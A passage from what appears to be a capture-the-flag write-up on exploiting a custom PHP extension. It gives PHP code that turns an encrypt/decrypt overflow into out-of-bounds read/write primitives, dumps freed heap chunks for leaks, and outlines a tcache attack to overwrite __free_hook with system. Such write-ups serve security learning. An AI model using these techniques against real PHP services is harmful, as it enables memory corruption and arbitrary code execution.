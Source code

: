 Since we have this overflow with encrypt/decrypt, we can create an OOB R/W primitive wrapper for this easily.

```php
<?php
    $KEY = 0;
    $buf1 = creatbuf(4800);
    $buf2 = creatbuf(4800);

    function read($chunk, $idx) {
        global $buf1, $buf2, $KEY;
        assert($idx < 300);
        encrypt_impl($chunk,$idx + 1,$KEY,$buf1);
        decrypt_impl($buf1,$idx + 1,$KEY,$buf2);
        return $buf2[$idx];
    }

    function write($chunk, $idx, $val) {
        global $buf1, $buf2, $KEY;
        assert($idx < 300);
        encrypt_impl($chunk,$idx + 1,$KEY,$buf1);
        decrypt_impl($buf1,$idx + 1,$KEY,$buf2);
        $buf2[$idx] = $val;
        encrypt_impl($buf2,$idx + 1,$KEY,$buf1);
        decrypt_impl($buf1,$idx + 1,$KEY,$chunk);
    }
...
?>
```

Now, we can test it simply by take a dump of the heap and overwrite some of them.

```php
    $x = [];
    array_push($x,
        creatbuf(0x11), // 0x20 sized chunks
        creatbuf(0x11),
        creatbuf(0x11),
        creatbuf(0x11)
    );
...
    releasestr($x[1]);
    releasestr($x[2]);
    read($x[0], 299);
    for ($i = 0; $i < 300; $i++) {
        echo $buf2[$i] . "\n";
    }
```

Since we have freed some chunks we can get some heap leaks from this. Thus, this challenge simply became a simple how2heap problem, because we can get libc leak with unsorted bins, overwrite fd in tcache to allocate in `__free_hook` and finally overwrite `__free_hook` to `system`, but is it really that simple?
